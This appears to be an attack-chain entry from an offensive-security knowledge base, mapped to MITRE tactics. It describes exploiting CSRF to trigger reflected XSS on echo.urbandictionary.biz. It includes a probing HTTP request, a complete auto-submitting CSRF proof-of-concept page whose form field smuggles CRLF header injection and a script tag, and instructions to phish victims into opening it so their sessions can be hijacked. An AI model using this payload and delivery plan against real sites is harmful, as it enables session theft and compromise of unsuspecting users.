

---
tags:
  - xss
  - csrf
  - web
  - reflection
  - injection
type: attack_chain
tools:
  - '[[tools/Burp-Suite-Professional]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-for-Reflected-XSS-in-HTML-Endpoints]]'
  - '[[procedures/Craft-CSRF-PoC-for-XSS-Injection]]'
  - '[[procedures/Deliver-Malicious-CSRF-Page-to-Victim]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:27:57.669Z'
description: >-
  A multi-stage attack exploiting CSRF to trigger reflected XSS on
  echo.urbandictionary.biz by posting to non-existent .html endpoints, causing
  unsanitized reflection of payloads as HTML.
skill_level: intermediate
impact_level: high
id: 4d9c96aa-d387-496a-b9b1-7c1f41007bd3
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CSRF-Exploitable Reflected XSS via HTML Endpoint Reflection on Urban Dictionary Echo Service

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF to deliver reflected XSS payloads via unsanitized POST requests to .html endpoints on echo.urbandictionary.biz. The server reflects the request body as HTML without sanitization, enabling JavaScript execution in the victim's browser for session hijacking or data theft.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web platform
- Access to echo.urbandictionary.biz
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- No credentials needed
- Public network access to the target
- Ability to host or serve a malicious HTML page

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Test-for-Reflected-XSS-in-HTML-Endpoints]]

**Objective**: Discover endpoints that reflect POST bodies as unsanitized HTML, enabling XSS payload injection.

**Instructions**: Use Burp Suite to intercept and send a POST request to a non-existent .html path, such as /xsxsxs.html, with a simple payload in the body to test reflection. Set Content-Type to text/plain initially to observe how the server overrides it to text/html.

Example request via Burp Repeater:

```http
POST /xsxsxs.html HTTP/1.1
Host: echo.urbandictionary.biz
Content-Type: text/plain
Content-Length: 20

test<payload>here</payload>
```

**Expected Output**: Server responds with Content-Type: text/html and echoes the body verbatim, parsing HTML tags.

**Success Indicators**:
- Response Content-Type set to text/html
- Body reflected without escaping

### Step 2: Craft CSRF PoC
procedure: [[procedures/Craft-CSRF-PoC-for-XSS-Injection]]

**Objective**: Create an HTML page that auto-submits a POST request with a CRLF-injected XSS payload to the vulnerable endpoint via CSRF.

**Instructions**: Develop a local HTML file using a form that posts to the target .html endpoint. Include a hidden input with a name containing CRLF (%0D%0A) followed by a script tag. Use JavaScript to auto-submit on load, spoofing the request to bypass any basic checks.

Example PoC HTML:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf" action="https://echo.urbandictionary.biz/xsxsxs.html" method="POST" enctype="text/plain">
<input type="hidden" name="test%0D%0AContent-Type:%20text/html%0D%0A%0D%0A<script>alert(document.domain)</script>" value="payload">
</form>
<script>
history.pushState('', '', '/');
document.getElementById('csrf').submit();
</script>
</body>
</html>
```

Host this file on a server or local setup for delivery.

**Expected Output**: Form submits POST with injected headers and script, triggering reflection.

**Success Indicators**:
- Payload includes CRLF for header injection
- Script tag positioned for HTML parsing

### Step 3: Deliver Malicious Page to Victim
procedure: [[procedures/Deliver-Malicious-CSRF-Page-to-Victim]]

**Objective**: Socially engineer the victim to load the PoC page, triggering the CSRF POST and executing the XSS payload in their browser.

**Instructions**: Send the hosted PoC URL to the victim via email, phishing link, or shared resource. Upon loading, the page auto-submits the POST to echo.urbandictionary.biz, reflecting the XSS script which executes in the context of the victim's session if authenticated.

No specific command; monitor via Burp or network tools for the POST request from the victim's browser.

**Expected Output**: Victim's browser executes the alert (or malicious JS), confirming XSS.

**Success Indicators**:
- Alert pops or JS executes
- Potential session cookie theft if payload enhanced

## Attack Chain Summary

### Key Achievements

1. Identified reflection vulnerability in .html endpoints
2. Bypassed CSRF protections with auto-submitting form
3. Achieved arbitrary JS execution for high-impact attacks like session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
